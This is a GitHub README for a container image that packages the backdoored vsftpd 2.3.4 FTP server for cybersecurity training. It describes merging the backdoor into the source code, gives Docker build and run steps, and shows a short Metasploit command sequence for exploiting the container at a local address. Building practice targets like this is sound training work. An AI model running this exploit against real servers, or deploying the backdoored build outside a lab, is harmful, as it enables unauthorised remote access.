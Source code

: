 # vsftpd-2.3.4-container
Alpine Linux based container image with a vulnerable version of vsftpd-2.3.4 for use in cybersecurity training environments. Supports both amd64 and armv8 architectures.

## Changes to source code

Downloaded official source code from: https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz

The official source release of 2.3.4 (above link) doesn't have the vulnerable backdoor and I couldn't find an official source for it.

However I did find another Github user's repo with the infected version: https://github.com/nikdubois/vsftpd-2.3.4-infected/commit/e084c9543947d9509ea74731adca427418604cc2 which I've incorporated into `str.c` and `sysdeputil.c` in order to make it exploitable using msf. 

Other changes are made to source to make it build with Alpine's default C library, [musl](https://en.wikipedia.org/wiki/Musl), in the Dockerfile during container image build.

## Use my published image from docker hub

```
docker run --name vsftpd-2.3.4 -it clintmint/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Exploiting with msf

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
exploit
````

## Docker build & run

```
git clone https://github.com/clintmint/vsftpd-2.3.4-container.git
cd vsftpd-2.3.4-container
docker build -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
docker run --name vsftpd-2.3.4 -it <docker-hub-username>/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Multi-architecture build and push for linux/amd64 (Intel/AMD CPUs) and linux/arm64 (for Macs using M1 chip)

```
docker login
docker buildx create --use
docker buildx build --platform linux/amd64,linux/arm64 --push -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
```
